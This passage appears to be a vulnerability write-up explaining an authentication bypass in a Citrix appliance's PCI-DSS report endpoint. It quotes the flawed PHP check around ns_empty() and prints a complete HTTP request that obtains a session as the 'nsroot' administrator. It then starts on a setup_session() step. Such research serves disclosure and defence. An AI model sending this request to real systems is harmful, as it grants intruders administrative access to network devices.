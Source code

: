 ```php
$nitro = new nitro();
$nitro_return_value = $nitro->v1($arg_list[0], $arg_list[1] . $query_params);
```

Remember how it would also return `0` if something went wrong? Like, when you'd say it was getting XML but it really wasn't? Can you feel where this is going? Our `$query_params` right now are basically garbage. So `$nitro_return_value` would then be `0`.

Luckily, there's a check to see if the command failed:
```php
// Process result
if(ns_empty($nitro_return_value) || $nitro_return_value === false)
{
    $this->set_error_code();
    $this->set_error_message($command);
}
```

Wait, what does that `ns_empty()` function do?
```php
function ns_empty(&$var)
{
    return empty($var) && ($var != "0");
}
```

Ha! That returns `FALSE` in our case. So we pass the check! Here's all of this in one HTTP request (the cookie value can be whatever, as long as it's a 32 character hex string):

```http
POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 44
DNT: 1
Connection: close
X-NITRO-USER: henk
Cookie: SESSID=05afba59ef8e0e35933f3bc266941337
X-NITRO-PASS: ingrid
Upgrade-Insecure-Requests: 1

<appfwprofile><login></login></appfwprofile>
```

### Fixing the session
We have a somewhat valid session now. Let's see if we can make it more valid, as we are missing some attributes. All we have at the moment is `username` and a broken `sid`. Luckily, we can now use a function called `setup_session()`. This function takes two required arguments: `sid` and `username`, but also has an optional parameter called `force_setup`. 
